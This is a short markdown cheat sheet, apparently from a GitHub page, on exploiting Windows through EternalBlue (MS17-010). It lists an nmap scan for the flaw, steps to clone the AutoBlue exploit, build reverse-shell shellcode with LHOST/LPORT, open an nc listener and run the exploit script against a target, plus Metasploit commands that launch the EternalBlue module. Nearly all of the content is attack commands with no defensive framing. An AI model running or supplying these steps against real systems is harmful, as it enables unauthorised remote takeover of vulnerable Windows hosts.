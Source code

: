 # Eternal Blue

## Eternal Blue

## Exploiting Windows

### Eternal Blue

Nmap Scan

```bash
nmap -sV --script smb-vuln-ms17-010 192.167.1.1
```

Manual Exploitation

```bash
#Manual eternal blue checker
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
#requirement
pip install -r requirements.txt
cd shellcode
./shell_prep.sh
Y
LHOST
LPORT
0/1 (meterpreter/regular_shell)
nc LPORT
#example usage
python eternalblue_exploit7.py $ip shellcode/sc_x64.bin
```

### Metasploit

```bash
msfconsole -q
search eternalblue
use 0
set rhosts $ip
run
```
